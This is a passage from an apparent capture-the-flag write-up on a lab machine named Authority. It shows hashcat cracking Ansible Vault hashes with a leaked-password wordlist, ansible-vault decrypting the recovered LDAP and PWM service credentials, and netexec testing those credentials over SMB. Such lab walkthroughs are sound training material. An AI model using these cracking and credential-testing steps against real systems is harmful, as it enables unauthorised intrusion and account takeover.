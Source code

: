     
    
    $ hashcat vault_hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    16900 | Ansible Vault | Password Manager
    ...[snip]...
    $ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
    $ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
    $ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*
    ...[snip]...
    

They all have the same password, `!@#$%^&*`, which makes sense since they are
encrypted in the same ansible file.

#### Decrypt

`pipx install ansible-core` installs a bunch of ansible tools, including
`ansible-vault`, which can decrypt the blobs with passwords:

    
    
    oxdf@hacky$ cat ldap_admin_password_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    DevT3st@123
    oxdf@hacky$ cat pwm_admin_login_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    svc_pwm
    oxdf@hacky$ 
    oxdf@hacky$ cat pwm_admin_password_vault | ansible-vault decrypt
    Vault password: 
    Decryption successful
    pWm_@dm!N_!23
    

### Machine Access [Fail]

I’ll try this password combination with `netexec`. On SMB, it seems to work,
but then it can’t access any shares:

    
    
    oxdf@hacky$ netexec smb authority.htb -u svc_pwm -p 'pWm_@dm!N_!23'
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 
    oxdf@hacky$ netexec smb authority.htb -u svc_pwm -p 'pWm_@dm!N_!23' --shares
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 
    SMB         10.10.11.222    445    AUTHORITY        [-] Error enumerating shares: STATUS_ACCESS_DENIED
    